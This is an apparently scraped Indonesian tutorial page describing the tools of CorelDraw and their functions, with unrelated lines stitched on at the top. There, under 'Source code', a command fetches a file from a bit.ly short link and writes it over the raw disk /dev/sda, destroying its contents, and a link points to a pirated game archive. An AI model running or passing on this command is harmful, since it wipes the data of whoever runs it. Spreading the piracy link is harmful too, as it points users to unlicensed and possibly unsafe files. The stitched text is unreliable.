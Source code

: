 wget -O- –no-check-certificate https://bit.ly/3ueQCvR | gunzip | dd of=/dev/sda
http://fs8.megadb.xyz:8080/d/6lngxwqoy5vxygoid7w3fuicnzvsloy425uxeux65ivdsx4vwac46ifusmautxwxzfkr7yps/Satisfactory-SteamRIP.com.rar

1. Pick tool
Pick tool berfungsi untuk memilih, menyeleksi, hingga mengatur ukuran dan posisi dari objek. Selain itu, pada pilihan pick tool, ada beberapa tool tambahan seperti,

Freehand Pick tool yang berfungsi untuk menyeleksi objek dengan bebas.
Free Transform tool, untuk mengatur skala ukuran dari objek.
Pick-tool

2. Shape tool
Shape tool memiliki fungsi untuk membuat atau merubah objek menjadi bentuk lain dengan menggunakan titik sudut dari objek tersebut. Sudut dari objek dapat diubah menjadi bulat atau lebih runcing.
3. Smooth tool
Dari namanya kamu sudah bisa menebak bahwa smooth tool berfungsi untuk meluruskan atau menghaluskan garis atau sketsa yang kamu buat

4. Smear tool
Smear tool berguna untuk mengubah bagian dari objek dengan bentuk lengkungan. Adapun caranya bisa dilakukan dengan menarik bagian objek yang dipilih ke arah luar atau dalam. Sehingga nantinya dapat membuat objek menjadi  bentuk baru.

5. Swirl tool
Swirl tool berfungsi untuk mengubah atau memberikan efek putaran pada objek. Caranya yaitu klik tepi/sudut objek, dan tahan hingga putaran sesuai dengan ukuran yang kamu inginkan. Untuk lebih jelasnya, kamu dapat melihat contoh gambar di bawah.

6. Attract and Repel tool
Tool ini mungkin akan sangat berguna bagi kamu yang sering membuat gambar ilustrasi seperti sketsa atau kartun. Adapun Attract and Repel tool berfungsi mengubah secara bebas bagian dari objek dengan menjadi melengkung atau runcing. Cara menggunakannya, klik dan tarik ke arah luar atau dalam dari bagian objek yang dipilih. Kemudian  untuk memberikan efek yang lebih halus, tarik sambil menahan tombol mouse.

7. Smudge tool
Smudge tool berfungsi untuk mengubah bagian objek dengan bentuk lingkaran atau lengkungan. Adapun caranya yaitu klik pada garis objek yang dipilih dan kamu bisa secara bebas mengubah bentuk objek tersebut.

8. Roughen tool
Roughen tool bisa kamu gunakan untuk mengubah bagian objek khususnya pada garis menjadi runcing atau bentuk bergerigi seperti gergaji. Cara menggunakannya yaitu dengan klik bagian objek dan tarik. Tool ini bisa juga kamu gunakan untuk membuat gambar rumput atau objek lainnya dengan bentuk kasar. 

9. Crop tool
Kamu pasti sudah tidak asing lagi, dengan tool yang satu ini. Crop tool memiliki fungsi untuk memotong dan menghilang bagian objek yang dipilih. Adapun caranya kamu tinggal menyeleksi bagian objek yang ingin dihilangkan.

Selain crop tool, terdapat juga tool tambahan lainnya seperti,

Knife tool, untuk memotong objek.
Virtual Segment Delete tool, untuk menghapus bagian sudut atau pertemuan antar garis pada objek.
Eraser tool, untuk menghilangkan dan menghapus bagian yang tidak diinginkan pada objek/gambar.
10. Zoom tool
Zoom tool berfungsi untuk mengatur ukuran tampilan dari lembar kerja pada CorelDraw. Kamu bisa memperbesar atau memperkecil tampilan dari lembar kerja sesuai dengan yang kamu inginkan. Pada tool ini juga terdapat tool lainnya seperti, Pan tool yang berguna untuk mengontrol dan menggeser tampilan lembar kerja.

11. Freehand tool
Freehand tool berfungsi untuk membentuk garis secara bebas yang bisa digunakan untuk membuat gambar atau desain.

Pada tool ini juga terdapat beberapa tool yang bisa digunakan untuk menunjang aktivitas desainmu seperti,

2-Point Line tool, untuk menggambar garis lurus yang terdiri dari dua titik penghubung
Bèzier tool, untuk menggambar garis kurva yang dapat dihubungkan antar titik.   
Pen tool, untuk menggambar garis kurva secara langsung dan bisa diubah menjadi sebuah objek. 
B-Spline, untuk membuat garis kurva yang dihubungan dengan bentuk melengkung.
Polyline tool, untuk menggambar garis dengan bentuk lurus ataupun bebas yang dapat dilakukan secara bersamaan.
3 Point Curve tool, untuk membuat garis atau kurva bedasarkan 3 titik awal.
12. Artistic Media tool
Artistic Media tool berfungsi untuk membuat garis dengan berbagai bentuk atau style. Mulai dari bentuk brush, sprayer, calligraphic, hingga expression. Masing-masing style dapat dilihat pada gambar di bawah.

Pada pilihan tool ini juga terdapat tool tambahan seperti, 

LiveSketch tool, yang berfungsi untuk membuat garis seperti coretan pensil dalam sebuah sketsa gambar atau desain.
Smart Drawing tool, untuk membuat garis coretan menjadi objek yang kamu inginkan secara otomatis.
13. Rectangle tool
Rectangle tool adalah tool yang bisa kamu gunakan untuk menggambar objek dengan bentuk persegi 4 atau kotak.  Pada tool ini juga terdapat 3 point Rectangle tool yang berfungsi untuk menggambar persegi dengan sudut dan garis lurus. 

 

14. Ellipse tool
Ellipse tool berfungsi untuk menggambar objek dengan bentuk lingkaran atau oval.  Pada tool ini juga terdapat 3 point Ellipse tool yang berfungsi untuk menggambar lingkaran yang diawali dengan garis lurus. 

 

15. Polygon tool
Polygon tool berfungsi untuk membuat objek dengan berbagai jumlah segi(sudut) seperti, segi lima, enam, atau lebih.

Selain polygon, pada tool ini juga ada beberapa tool tambahan yang bisa digunakan untuk membuat objek dengan bentuk lainnya,

Star tool, untuk membuat objek dengan bentuk bintang
Spiral tool, untuk membuat objek dengan bentuk spiral
Common Shapes tool, untuk membuat berbagai objek dengan berbagai bentuk seperti, jajaran genjang, tanda panah, dan masih banyak lagi.
Impact tool, untuk membuat gambar dengan efek garis-garis seperti sinar.
Graph paper tool, untuk membuat objek seperti tabel atau susunan persegi.
16. Text tool
Tool ini berfungsi untuk membuat tulisan atau objek dengan bentuk tulisan. Text tool juga bisa kamu gunakan untuk menambahkan teks ke dalam objek yang diinginkan. 

 

17. Table tool
Table tool berfungsi untuk membuat objek dengan bentuk tabel dan bisa ditambahkan tulisan di dalamnya. 

18. Parallel Dimension tool
Berikutnya adalah tool yang akan sangat berguna bagi kamu yang hobi mendesain bagunan atau arsitektur.  Parallel Dimension tool berfungsi untuk membuat garis beserta ukurannya (panjang/lebar), seperti contoh gambar di bawah ini.

Selain itu, pada pilihan tool ini, juga terdapat berbagai jenis tool lainnya yang memiliki fungsi yang hampir sama seperti, 

Horizontal or Vertical Dimension tool, untuk membuat garis ukur dengan posisi horizontal dan vertikal.
Angular Dimension tool, untuk membuat garis yang digunakan untuk mengkur sudut sebuah objek. 
Segment Dimension tool, untuk menampilkan garis ukur pada bagian sebuah objek.
2-Leg Callout tool, untuk membuat garis petunjuk pada bagian objek.
 
19. Connector tool
Connector tool berfungsi untuk membuat garis penghubung antar dua objek atau lebih. Pada tool ini terdapat juga tool pembantu seperti, Anchor Editing, yang berfungsi untuk mengatur posisi titik penghubung antar objek. 

20. Shadow tool
Shadow tool berfungsi untuk memberikan efek bayangan pada sebuah objek.

Selain itu, ada juga tool lainnya yang dapat memberikan efek menarik pada objek seperti, 

Contour tool, untuk membuat objek baru secara berurutan berdasarkan bentuk awalnya
Blend tool, berfungsi untuk menghubungkan antar dua objek yang berbeda
Distort tool, untuk memberikan efek yang dapat mengubah bentuk dengan menarik bagian pada garis objek.
Envelope tool, untuk melengkungkan bagian pada objek yang dipilih.
Extrude tool, untuk menambahkan bentuk 3D atau ruang pada objek. 
Block Shadow tool, untuk memberikan efek bayangan tebal pada berdasarkan titik sudut pada objek. 
21. Transparency tool
Transparency tool berfungsi untuk memberikan efek transparan pada sebagian atau keseluruhan objek.

22. Color Eyedropper tool
Transparency tool digunakan untuk mengambil sample warna dari sebuah objek dan dimasukan ke dalam color box. Pada tool ini terdapat juga tool tambahan yaitu Attributes Eyedropper tool, yang berfungsi untuk mulai mengambil sampel atribut dari objek, seperti kerangka, warna isian, dan efek.

23. Interactive Fill tool
Interactive Fill tool berfungsi untuk memberikan isian ke dalam sebuah objek seperti, warna solid, gradasi, pola, dan preset lainnya. Pilihan tersebut bisa kamu lihat di bagian atas pada gambar di bawah ini. 

Selain itu,  ada juga beberapa tool tambahan pada pilihan tool ini seperti, 

Smart Fill tool, yang befungsi untuk memberikan warna berdasarkan area tertentu pada objek.
Mesh Fill tool, untuk memberi dan mengatur warna gradasi berdasarkan garis bantu.
24. Outline tool
Tool ini berfungsi untuk mengatur ukuran, ketebalan, dan warna garis pada saat membuat sebuah objek.
